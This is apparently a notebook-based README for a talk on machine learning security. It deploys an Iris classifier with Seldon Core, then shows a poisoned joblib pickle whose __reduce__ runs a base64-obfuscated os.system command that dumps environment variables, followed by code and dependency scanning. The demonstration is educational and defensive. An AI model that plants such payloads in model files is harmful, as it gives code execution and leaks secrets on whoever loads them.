




[](https://github.com/EthicalML/awesome-production-machine-learning/graphs/commit-activity)


[](https://twitter.com/AxSaucedo/)


<table>
<tr>
<td width="70%">
<h1>Flawed Machine Learning Security</h1>
</td>
<td>
<a href="https://youtu.be/dKjCWfuvYxQ?t=147"></a> <br> (AKA Exploring Secure ML)
</td>
</td>
</table>


## About this repo

This Repo contains a set of resources relevant to the talk "Secure Machine Learning at Scale with MLSecOps", and provides a set of examples to showcase practical common security flaws throughout the multiple phases of the machine learning lifecycle.


## Relevant Links

### Link to Talk Resources

Below are links to resources related to the talk, as well as references and relevant areas in machine learning security.

| | | |
|-|-|-|
|[📄 Presentaiton Slides](https://docs.google.com/presentation/d/1Gu0We8RcMHksWc-7FCy_kYNfH8rq_c6qcAOsacSLAbE/edit#slide=id.g1041fb76f2f_0_177) |[🗣️ Talk Link (Coming Soon)](#) | [📽️ Talk Video (Coming Soon)](#)|


### Navigating the Repo Examples

Below is the direct links to each of the headers that map to the main key sections of the presentation slides.

* [Train Model and Deploy Artifact](#1---train-model-and-deploy-artifact)
* [Load Pickle and Inject Malicious Code](#2---load-pickle-and-inject-malicious-code)
* [Adversarial Detection](#3---adversarial-detection)
* [Dependency Vulnerability Scans](#4---dependency-vulnerability-scans)
* [Code Scans](#5---code-scans)
* [Container Scans](#6---container-scan)
* [Honourable Mentions](#honourable-mentions)


### Links to Other Talks and Relevant Resources

| | | |
|-|-|-|
|[📜 Machine Learning Ecosystem List](https://github.com/EthicalML/awesome-production-machine-learning/)|[📚 The State of ML Operations](https://www.youtube.com/watch?v=Ynb6X0KZKxY)|[📈 Prod ML Monitoring](https://www.youtube.com/watch?v=QcevzK9ZuDg&t=3s)|||
|[🌀 Accelerating ML Inference at Scale](https://www.youtube.com/watch?v=T0pPn5KTxFE&t=4s)|[🕵️‍♀️ Alibi Detect Adversarial Detection](https://docs.seldon.io/projects/alibi-detect/en/latest/examples/alibi_detect_deploy.html)|[👓 Practical AI Ethics](https://www.youtube.com/watch?v=57YpXjcj0Ho&t=63s)|||

## Other relevant resources

<table>
  <tr>
    <td width="30%">
         You can join the <a href="https://ethical.institute/mle.html">Machine Learning Engineer</a> newsletter. You will receive updates on open source frameworks, tutorials and articles curated by machine learning professionals.
    </td>
    <td width="70%">
        <a href="https://ethical.institute/mle.html"></a>
    </td>
  </tr>
</table>

## Requirements

The notebook was created with the following requirements:

* kubectl - v1.22.5
* istioctl v1.11.4
* helm - v.3.7.0
* mc (minio client) - RELEASE.2020-04-17T08-55-48Z
* Kubernetes > 1.18
* Python 3.7

## Setting up environment

In order to set up the environment correctly, you will have to follow the [SETUP.ipynb](SETUP.ipynb) Jupyter notebook.

## 1 - Train Model and Deploy Artifact

In this section we will train a machine learning model and deploy it with Seldon Core. We will overlook a lot of the details, but if you want to learn the ins-and-outs there are a set of talks referenced in the intro section above.



#### Install requirements for model


```python
%%writefile requirements.txt
seldon_core
scikit-learn == 0.24.2
numpy >= 1.8.2
joblib == 0.16.0
```

    Overwriting requirements.txt


```python
!pip install -r requirements.txt
```

#### Import datasets to train Iris model


```python
from sklearn import datasets

iris = datasets.load_iris()
X, y = iris.data, iris.target
```

#### Import simple LogsticRegression model


```python
from sklearn.linear_model import LogisticRegression

model = LogisticRegression(solver="liblinear", multi_class='ovr')
```

#### Train model with dataset


```python
model.fit(X, y)
```


    LogisticRegression(multi_class='ovr', solver='liblinear')


#### Run prediction to test model


```python
model.predict(X[:1])
```


    array([0])


#### Dump model binary with pickle


```python
!mkdir -p fml-artifacts/safe/
```


```python
import joblib

joblib.dump(model, "fml-artifacts/safe/model.joblib")
```


    ['fml-artifacts/safe/model.joblib']


```python
with open("fml-artifacts/safe/model.joblib", "rb") as f: print(f.readlines())
```

    [b'\x80\x03csklearn.linear_model._logistic\n', b'LogisticRegression\n', b'q\x00)\x81q\x01}q\x02(X\x07\x00\x00\x00penaltyq\x03X\x02\x00\x00\x00l2q\x04X\x04\x00\x00\x00dualq\x05\x89X\x03\x00\x00\x00tolq\x06G?\x1a6\xe2\xeb\x1cC-X\x01\x00\x00\x00Cq\x07G?\xf0\x00\x00\x00\x00\x00\x00X\r\x00\x00\x00fit_interceptq\x08\x88X\x11\x00\x00\x00intercept_scalingq\tK\x01X\x0c\x00\x00\x00class_weightq\n', b'NX\x0c\x00\x00\x00random_stateq\x0bNX\x06\x00\x00\x00solverq\x0cX\t\x00\x00\x00liblinearq\rX\x08\x00\x00\x00max_iterq\x0eKdX\x0b\x00\x00\x00multi_classq\x0fX\x03\x00\x00\x00ovrq\x10X\x07\x00\x00\x00verboseq\x11K\x00X\n', b'\x00\x00\x00warm_startq\x12\x89X\x06\x00\x00\x00n_jobsq\x13NX\x08\x00\x00\x00l1_ratioq\x14NX\x0e\x00\x00\x00n_features_in_q\x15K\x04X\x08\x00\x00\x00classes_q\x16cjoblib.numpy_pickle\n', b'NumpyArrayWrapper\n', b'q\x17)\x81q\x18}q\x19(X\x08\x00\x00\x00subclassq\x1acnumpy\n', b'ndarray\n', b'q\x1bX\x05\x00\x00\x00shapeq\x1cK\x03\x85q\x1dX\x05\x00\x00\x00orderq\x1eh\x07X\x05\x00\x00\x00dtypeq\x1fcnumpy\n', b'dtype\n', b'q X\x02\x00\x00\x00i8q!\x89\x88\x87q"Rq#(K\x03X\x01\x00\x00\x00<q$NNNJ\xff\xff\xff\xffJ\xff\xff\xff\xffK\x00tq%bX\n', b'\x00\x00\x00allow_mmapq&\x88ub\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00X\x05\x00\x00\x00coef_q\'h\x17)\x81q(}q)(h\x1ah\x1bh\x1cK\x03K\x04\x86q*h\x1eX\x01\x00\x00\x00Fq+h\x1fh X\x02\x00\x00\x00f8q,\x89\x88\x87q-Rq.(K\x03h$NNNJ\xff\xff\xff\xffJ\xff\xff\xff\xffK\x00tq/bh&\x88ub, ?T\xff@\xda?\xf6_5nM\\\xdb?.z\xa2\x86\xfbQ\xfb\xbf\x0bh|N5m\xf7?w\xfa$3:\xcb\xf9\xbf\xbc\x99m\xbff\x8c\xf8\xbf{\xc8\x01\x01\x8c\x14\x02\xc0l\xcb\xc4e\x18m\xe2?\xb3s\x82\xa2\x8a\xc4\x03@`\xf08\xe4(V\xf0\xbf"\\}\x85\xaf\x7f\xf6\xbf\x03M#\n', b'fq\x04@X\n', b"\x00\x00\x00intercept_q0h\x17)\x81q1}q2(h\x1ah\x1bh\x1cK\x03\x85q3h\x1eh\x07h\x1fh.h&\x88ub\xb5~?\xd6\xf4\xe8\xd0?\x8d\xd5\xfc'\xb7\x80\xf1??\xc3\xdc\xe0ro\xf3\xbfX\x07\x00\x00\x00n_iter_q4h\x17)\x81q5}q6(h\x1ah\x1bh\x1cK\x01\x85q7h\x1eh\x07h\x1fh X\x02\x00\x00\x00i4q8\x89\x88\x87q9Rq:(K\x03h$NNNJ\xff\xff\xff\xffJ\xff\xff\xff\xffK\x00tq;bh&\x88ub\x07\x00\x00\x00X\x10\x00\x00\x00_sklearn_versionq<X\x06\x00\x00\x000.24.2q=ub."]


#### Deploy the model


```python
!mc cp -r fml-artifacts/ minio-seldon/fml-artifacts/
```

    ...el.joblib:  1.05 KiB / 1.05 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 54.76 KiB/s 0s


```bash
%%bash
kubectl apply -f - << END
apiVersion: machinelearning.seldon.io/v1
kind: SeldonDeployment
metadata:
  name: model-safe
spec:
  predictors:
  - graph:
      implementation: SKLEARN_SERVER
      modelUri: s3://fml-artifacts/safe
      envSecretRefName: seldon-init-container-secret
      name: classifier
    name: default
END
```

    seldondeployment.machinelearning.seldon.io/model-safe created


```python
!kubectl get pods | grep model-safe
```

    model-safe-default-0-classifier-554dcc575b-8j2lf     2/2     Running   0          91m


```python
import requests

url = "http://localhost:80/seldon/default/model-safe/api/v1.0/predictions"

requests.post(url, json={"data": {"ndarray": [[1,2,3,4]]}}).json()
```


    {'data': {'names': ['t:0', 't:1', 't:2'],
      'ndarray': [[0.0006985194531162835,
        0.00366803903943666,
        0.995633441507447]]},
     'meta': {'requestPath': {'classifier': 'seldonio/sklearnserver:1.14.0-dev'}}}


## 2 - Load Pickle and Inject Malicious Code




```python
import joblib

model_safe = joblib.load("fml-artifacts/safe/model.joblib")
```


```python
model_safe.predict(X[:1])
```


    array([0])


```python
import types, os, base64

def __reduce__(self):
    # This is basically base64 for cmd = "env > pwnd.txt"
    cmd = base64.b64decode("ZW52ID4gcHduZC50eHQ=").decode() 
    return os.system, (cmd,)
```


```python
model_safe.__class__.__reduce__ = types.MethodType(__reduce__, model_safe.__class__)
```


```python
!mkdir -p fml-artifacts/unsafe/
```


```python
joblib.dump(model_safe, "fml-artifacts/unsafe/model.joblib")
```


    ['fml-artifacts/unsafe/model.joblib']


```python
with open("fml-artifacts/unsafe/model.joblib", "rb") as f: print(f.readlines())
```

    [b'\x80\x03cposix\n', b'system\n', b'q\x00X\x0e\x00\x00\x00env > pwnd.txtq\x01\x85q\x02Rq\x03.']


#### Deploy the model


```python
!mc cp -r fml-artifacts/ minio-seldon/fml-artifacts/
```

    ...el.joblib:  1.05 KiB / 1.05 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 110.68 KiB/s 0s


```bash
%%bash
kubectl apply -f - << END
apiVersion: machinelearning.seldon.io/v1
kind: SeldonDeployment
metadata:
  name: model-unsafe
spec:
  predictors:
  - graph:
      implementation: SKLEARN_SERVER
      modelUri: s3://fml-artifacts/unsafe
      envSecretRefName: seldon-init-container-secret
      name: classifier
    name: default
END
```

    seldondeployment.machinelearning.seldon.io/model-unsafe unchanged


```python
!kubectl get pods
```

    NAME                                                 READY   STATUS    RESTARTS   AGE
    model-safe-default-0-classifier-554dcc575b-8j2lf     2/2     Running   0          96m
    model-unsafe-default-0-classifier-75679bbd57-bqcdj   2/2     Running   0          89m


```bash
%%bash
UNSAFE_POD=$(kubectl get pod -l app=model-unsafe-default-0-classifier -o jsonpath="{.items[0].metadata.name}")
kubectl exec $UNSAFE_POD -c classifier -- head -5 pwnd.txt
```

    SERVICE_TYPE=MODEL
    LC_ALL=C.UTF-8
    SKLEARN_DEFAULT_PORT_8000_TCP_PROTO=tcp
    MODEL_UNSAFE_DEFAULT_SERVICE_PORT_GRPC=5001
    SKLEARN_DEFAULT_SERVICE_HOST=10.100.66.186


#### Now reload the insecure pickle


```python
!rm pwnd.txt
```


```python
import joblib

model_unsafe = joblib.load("fml-artifacts/unsafe/model.joblib")
```


```python
!head -4 pwnd.txt
```

    CONDA_PROMPT_MODIFIER=(fml-security) 
    TMUX=/tmp/tmux-1000/default,94,0
    PYSPARK_DRIVER_PYTHON=jupyter
    USER=alejandro


#### Cleaning Artifacts Section


```python
!rm pwnd.txt
```


```python
!kubectl delete sdep model-safe model-unsafe 
```

    seldondeployment.machinelearning.seldon.io "model-safe" deleted
    seldondeployment.machinelearning.seldon.io "model-unsafe" deleted


## 3 - Adversarial Detection

Using Alibi Detect end to end adversarial detection example https://docs.seldon.io/projects/alibi-detect/en/latest/examples/alibi_detect_deploy.html

## 4 - Code Scans



We use `bandit` for python AST code scans, which we can make sure to extend as well to some of the code that is being used in Jupyter notebooks where relevant.

Examples of key areas that we would be interested to identify:

* Ensuring secrets/keys are not being committed to the repo
* Ensuring bad practice can be avoided where clear potential risk
* Identifying and pointing potentially risky code paths
* Providing suggestions where best practices can be provided


```python
!pip install bandit
```


```python
!bandit .
```

    [main]	INFO	profile include tests: None
    [main]	INFO	profile exclude tests: None
    [main]	INFO	cli include tests: None
    [main]	INFO	cli exclude tests: None
    [main]	INFO	running on Python 3.7.12
    [manager]	WARNING	Skipping directory (.), use -r flag to scan contents
    Run started:2022-04-10 17:04:48.838869
    
    Test results:
    	No issues identified.
    
    Code scanned:
    	Total lines of code: 0
    	Total lines skipped (#nosec): 0
    
    Run metrics:
    	Total issues (by severity):
    		Undefined: 0
    		Low: 0
    		Medium: 0
    		High: 0
    	Total issues (by confidence):
    		Undefined: 0
    		Low: 0
    		Medium: 0
    		High: 0
    Files skipped (0):


## 5 - Dependency Vulnerability Scans

#### Revisiting our requirements


```python
!cat requirements.txt
```

    seldon_core
    scikit-learn == 0.24.2
    numpy >= 1.8.2
    joblib == 0.16.0


```python
!pip install pipdeptree
```


```python
!pipdeptree
```

    Warning!!! Possibly conflicting dependencies found:
    * docker-compose==1.25.0
     - cached-property [required: >=1.2.0,<2, installed: ?]
     - websocket-client [required: >=0.32.0,<1, installed: ?]
     - docker [required: >=3.7.0,<5, installed: ?]
     - PyYAML [required: >=3.10,<5, installed: 5.4.1]
    ------------------------------------------------------------------------
    bandit==1.7.4
      - GitPython [required: >=1.0.1, installed: 3.1.27]
        - gitdb [required: >=4.0.1,<5, installed: 4.0.9]
          - smmap [required: >=3.0.1,<6, installed: 5.0.0]
        - typing-extensions [required: >=3.7.4.3, installed: 4.1.1]
      - PyYAML [required: >=5.3.1, installed: 5.4.1]
      - stevedore [required: >=1.20.0, installed: 3.5.0]
        - importlib-metadata [required: >=1.7.0, installed: 4.11.3]
          - typing-extensions [required: >=3.6.4, installed: 4.1.1]
          - zipp [required: >=0.5, installed: 3.8.0]
        - pbr [required: >=2.0.0,!=2.1.0, installed: 5.8.1]
    docker-compose==1.25.0
      - cached-property [required: >=1.2.0,<2, installed: ?]
      - docker [required: >=3.7.0,<5, installed: ?]
      - dockerpty [required: >=0.4.1,<1, installed: 0.4.1]
        - six [required: >=1.3.0, installed: 1.16.0]
      - docopt [required: >=0.6.1,<1, installed: 0.6.2]
      - jsonschema [required: >=2.5.1,<4, installed: 3.2.0]
        - attrs [required: >=17.4.0, installed: 21.4.0]
        - importlib-metadata [required: Any, installed: 4.11.3]
          - typing-extensions [required: >=3.6.4, installed: 4.1.1]
          - zipp [required: >=0.5, installed: 3.8.0]
        - pyrsistent [required: >=0.14.0, installed: 0.18.1]
        - setuptools [required: Any, installed: 62.0.0]
        - six [required: >=1.11.0, installed: 1.16.0]
      - PyYAML [required: >=3.10,<5, installed: 5.4.1]
      - requests [required: >=2.20.0,<3, installed: 2.27.1]
        - certifi [required: >=2017.4.17, installed: 2021.10.8]
        - charset-normalizer [required: ~=2.0.0, installed: 2.0.12]
        - idna [required: >=2.5,<4, installed: 3.3]
        - urllib3 [required: >=1.21.1,<1.27, installed: 1.26.5]
      - six [required: >=1.3.0,<2, installed: 1.16.0]
      - texttable [required: >=0.9.0,<2, installed: 1.6.2]
      - websocket-client [required: >=0.32.0,<1, installed: ?]
    paramiko==2.7.1
      - bcrypt [required: >=3.1.3, installed: 3.1.7]
        - cffi [required: >=1.1, installed: 1.15.0]
          - pycparser [required: Any, installed: 2.21]
        - six [required: >=1.4.1, installed: 1.16.0]
      - cryptography [required: >=2.5, installed: 3.4.8]
        - cffi [required: >=1.12, installed: 1.15.0]
          - pycparser [required: Any, installed: 2.21]
      - pynacl [required: >=1.0.1, installed: 1.3.0]
        - cffi [required: >=1.4.1, installed: 1.15.0]
          - pycparser [required: Any, installed: 2.21]
        - six [required: Any, installed: 1.16.0]
    pipdeptree==2.2.1
      - pip [required: >=6.0.0, installed: 22.0.4]
    piprot==0.9.11
      - requests [required: Any, installed: 2.27.1]
        - certifi [required: >=2017.4.17, installed: 2021.10.8]
        - charset-normalizer [required: ~=2.0.0, installed: 2.0.12]
        - idna [required: >=2.5,<4, installed: 3.3]
        - urllib3 [required: >=1.21.1,<1.27, installed: 1.26.5]
      - requests-futures [required: Any, installed: 1.0.0]
        - requests [required: >=1.2.0, installed: 2.27.1]
          - certifi [required: >=2017.4.17, installed: 2021.10.8]
          - charset-normalizer [required: ~=2.0.0, installed: 2.0.12]
          - idna [required: >=2.5,<4, installed: 3.3]
          - urllib3 [required: >=1.21.1,<1.27, installed: 1.26.5]
      - six [required: Any, installed: 1.16.0]
    pytest==5.4.3
      - attrs [required: >=17.4.0, installed: 21.4.0]
      - importlib-metadata [required: >=0.12, installed: 4.11.3]
        - typing-extensions [required: >=3.6.4, installed: 4.1.1]
        - zipp [required: >=0.5, installed: 3.8.0]
      - more-itertools [required: >=4.0.0, installed: 8.12.0]
      - packaging [required: Any, installed: 21.3]
        - pyparsing [required: >=2.0.2,!=3.0.5, installed: 3.0.8]
      - pluggy [required: >=0.12,<1.0, installed: 0.13.1]
        - importlib-metadata [required: >=0.12, installed: 4.11.3]
          - typing-extensions [required: >=3.6.4, installed: 4.1.1]
          - zipp [required: >=0.5, installed: 3.8.0]
      - py [required: >=1.5.0, installed: 1.11.0]
      - wcwidth [required: Any, installed: 0.2.5]
    safety==1.10.3
      - Click [required: >=6.0, installed: 8.0.4]
        - importlib-metadata [required: Any, installed: 4.11.3]
          - typing-extensions [required: >=3.6.4, installed: 4.1.1]
          - zipp [required: >=0.5, installed: 3.8.0]
      - dparse [required: >=0.5.1, installed: 0.5.1]
        - packaging [required: Any, installed: 21.3]
          - pyparsing [required: >=2.0.2,!=3.0.5, installed: 3.0.8]
        - pyyaml [required: Any, installed: 5.4.1]
        - toml [required: Any, installed: 0.10.2]
      - packaging [required: Any, installed: 21.3]
        - pyparsing [required: >=2.0.2,!=3.0.5, installed: 3.0.8]
      - requests [required: Any, installed: 2.27.1]
        - certifi [required: >=2017.4.17, installed: 2021.10.8]
        - charset-normalizer [required: ~=2.0.0, installed: 2.0.12]
        - idna [required: >=2.5,<4, installed: 3.3]
        - urllib3 [required: >=1.21.1,<1.27, installed: 1.26.5]
      - setuptools [required: Any, installed: 62.0.0]
    scikit-learn==0.24.2
      - joblib [required: >=0.11, installed: 0.16.0]
      - numpy [required: >=1.13.3, installed: 1.21.5]
      - scipy [required: >=0.19.1, installed: 1.7.3]
        - numpy [required: >=1.16.5,<1.23.0, installed: 1.21.5]
      - threadpoolctl [required: >=2.0.0, installed: 3.1.0]
    seldon-core==1.13.1
      - click [required: >=8.0.0a1,<8.1, installed: 8.0.4]
        - importlib-metadata [required: Any, installed: 4.11.3]
          - typing-extensions [required: >=3.6.4, installed: 4.1.1]
          - zipp [required: >=0.5, installed: 3.8.0]
      - cryptography [required: >=3.4,<3.5, installed: 3.4.8]
        - cffi [required: >=1.12, installed: 1.15.0]
          - pycparser [required: Any, installed: 2.21]
      - Flask [required: <2.0.0, installed: 1.1.2]
        - click [required: >=5.1, installed: 8.0.4]
          - importlib-metadata [required: Any, installed: 4.11.3]
            - typing-extensions [required: >=3.6.4, installed: 4.1.1]
            - zipp [required: >=0.5, installed: 3.8.0]
        - itsdangerous [required: >=0.24, installed: 1.1.0]
        - Jinja2 [required: >=2.10.1, installed: 2.11.3]
          - MarkupSafe [required: >=0.23, installed: 1.1.1]
        - Werkzeug [required: >=0.15, installed: 2.1.1]
      - Flask-cors [required: <4.0.0, installed: 3.0.10]
        - Flask [required: >=0.9, installed: 1.1.2]
          - click [required: >=5.1, installed: 8.0.4]
            - importlib-metadata [required: Any, installed: 4.11.3]
              - typing-extensions [required: >=3.6.4, installed: 4.1.1]
              - zipp [required: >=0.5, installed: 3.8.0]
          - itsdangerous [required: >=0.24, installed: 1.1.0]
          - Jinja2 [required: >=2.10.1, installed: 2.11.3]
            - MarkupSafe [required: >=0.23, installed: 1.1.1]
          - Werkzeug [required: >=0.15, installed: 2.1.1]
        - Six [required: Any, installed: 1.16.0]
      - Flask-OpenTracing [required: >=1.1.0,<1.2.0, installed: 1.1.0]
        - Flask [required: Any, installed: 1.1.2]
          - click [required: >=5.1, installed: 8.0.4]
            - importlib-metadata [required: Any, installed: 4.11.3]
              - typing-extensions [required: >=3.6.4, installed: 4.1.1]
              - zipp [required: >=0.5, installed: 3.8.0]
          - itsdangerous [required: >=0.24, installed: 1.1.0]
          - Jinja2 [required: >=2.10.1, installed: 2.11.3]
            - MarkupSafe [required: >=0.23, installed: 1.1.1]
          - Werkzeug [required: >=0.15, installed: 2.1.1]
        - opentracing [required: >=2.0,<3, installed: 2.4.0]
      - flatbuffers [required: <2.0.0, installed: 1.12]
      - grpcio [required: <2.0.0, installed: 1.45.0]
        - six [required: >=1.5.2, installed: 1.16.0]
      - grpcio-opentracing [required: >=1.1.4,<1.2.0, installed: 1.1.4]
        - grpcio [required: >=1.1.3,<2.0, installed: 1.45.0]
          - six [required: >=1.5.2, installed: 1.16.0]
        - opentracing [required: >=1.2.2, installed: 2.4.0]
        - six [required: >=1.10, installed: 1.16.0]
      - grpcio-reflection [required: <1.35.0, installed: 1.34.1]
        - grpcio [required: >=1.34.1, installed: 1.45.0]
          - six [required: >=1.5.2, installed: 1.16.0]
        - protobuf [required: >=3.6.0, installed: 3.20.0]
      - gunicorn [required: >=19.9.0,<20.2.0, installed: 20.1.0]
        - setuptools [required: >=3.0, installed: 62.0.0]
      - itsdangerous [required: ==1.1.0, installed: 1.1.0]
      - jaeger-client [required: >=4.1.0,<4.5.0, installed: 4.4.0]
        - opentracing [required: >=2.1,<3.0, installed: 2.4.0]
        - threadloop [required: >=1,<2, installed: 1.0.2]
          - tornado [required: Any, installed: 6.1]
        - thrift [required: Any, installed: 0.16.0]
          - six [required: >=1.7.2, installed: 1.16.0]
        - tornado [required: >=4.3, installed: 6.1]
      - jsonschema [required: <4.0.0, installed: 3.2.0]
        - attrs [required: >=17.4.0, installed: 21.4.0]
        - importlib-metadata [required: Any, installed: 4.11.3]
          - typing-extensions [required: >=3.6.4, installed: 4.1.1]
          - zipp [required: >=0.5, installed: 3.8.0]
        - pyrsistent [required: >=0.14.0, installed: 0.18.1]
        - setuptools [required: Any, installed: 62.0.0]
        - six [required: >=1.11.0, installed: 1.16.0]
      - markupsafe [required: ==1.1.1, installed: 1.1.1]
      - numpy [required: <2.0.0, installed: 1.21.5]
      - opentracing [required: >=2.2.0,<2.5.0, installed: 2.4.0]
      - prometheus-client [required: >=0.7.1,<0.9.0, installed: 0.8.0]
      - protobuf [required: <4.0.0, installed: 3.20.0]
      - PyYAML [required: >=5.4,<5.5, installed: 5.4.1]
      - requests [required: <3.0.0, installed: 2.27.1]
        - certifi [required: >=2017.4.17, installed: 2021.10.8]
        - charset-normalizer [required: ~=2.0.0, installed: 2.0.12]
        - idna [required: >=2.5,<4, installed: 3.3]
        - urllib3 [required: >=1.21.1,<1.27, installed: 1.26.5]
      - setuptools [required: >=41.0.0, installed: 62.0.0]
      - urllib3 [required: ==1.26.5, installed: 1.26.5]
    wheel==0.37.1


#### Identifying shortcomings of pip

If we visualise the output of sklearn itself, we can see that for the dependencies we have a set of ranges as follows:

```
scikit-learn==0.24.2
  - joblib [required: >=0.11, installed: 0.16.0]
  - numpy [required: >=1.13.3, installed: 1.21.5]
  - scipy [required: >=0.19.1, installed: 1.7.3]
    - numpy [required: >=1.16.5,<1.23.0, installed: 1.21.5]
  - threadpoolctl [required: >=2.0.0, installed: 3.1.0]
```

This means that if we run an install, we may have 2nd+ level dependencies that may change causing undesired effects.

#### Workaround with PIP

We can actually create our makeshift environment freeze by using PIP directly.


```python
!pip freeze > requirements-freeze.txt
```


```python
!head -10 requirements-freeze.txt
```

    attrs==21.4.0
    bandit==1.7.4
    bcrypt==3.1.7
    certifi==2021.10.8
    cffi==1.15.0
    charset-normalizer==2.0.12
    click==8.0.4
    cryptography==3.4.8
    docker-compose==1.25.0
    dockerpty==0.4.1


#### Solving with Poetry

A better solution is to use poetry to lock the dependencies required into a .lock file that saves a fully reproducible environment.


```python
%%writefile pyproject.toml
[tool.poetry]
name = "fml-security"
version = "0.1.0"
description = ""
authors = ["Alejandro Saucedo <axsauze@gmail.com>"]

[tool.poetry.dependencies]
python = ">=3.7,<3.11"

seldon-core = "1.13.1"
scikit-learn = "0.24.2"
numpy = "1.21.5"
joblib = "0.16.0"

[tool.poetry.dev-dependencies]
pytest = "^5.2"

[build-system]
requires = ["poetry-core>=1.0.0"]
build-backend = "poetry.core.masonry.api"
```

    Overwriting pyproject.toml


```python
!poetry install
```


```python
!head -20 poetry.lock
```

    [[package]]
    name = "atomicwrites"
    version = "1.4.0"
    description = "Atomic file writes."
    category = "dev"
    optional = false
    python-versions = ">=2.7, !=3.0.*, !=3.1.*, !=3.2.*, !=3.3.*"
    
    [[package]]
    name = "attrs"
    version = "21.4.0"
    description = "Classes Without Boilerplate"
    category = "main"
    optional = false
